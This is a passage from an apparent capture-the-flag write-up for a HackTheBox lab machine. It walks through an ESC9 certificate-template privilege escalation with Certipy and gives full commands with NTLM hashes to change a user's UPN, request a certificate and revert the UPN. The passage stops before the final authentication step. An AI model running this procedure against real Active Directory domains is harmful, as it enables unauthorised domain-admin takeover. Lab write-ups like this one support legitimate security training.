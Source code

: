 We enumerate the privileges of the user _ca_operator_ and find that it has a template vulnerable to the **ESC9** attack.

![certipy](../../../../../assets/certified/certipy.png)

In the [repository](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) we find the method to escalate privileges.

- 1º We update the victim's UPN (_ca_operator_) so that it points to the administrator's `sAMAccountName`:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'administrator' -user 'ca_operator' update
```
- 2º We request a certificate by abusing the insecure template using the victim's credentials:

```
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```
- 3º We revert the victim's UPN:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'ca_operator' -user 'ca_operator' update
```
- 4º We authenticate using the obtained certificate:
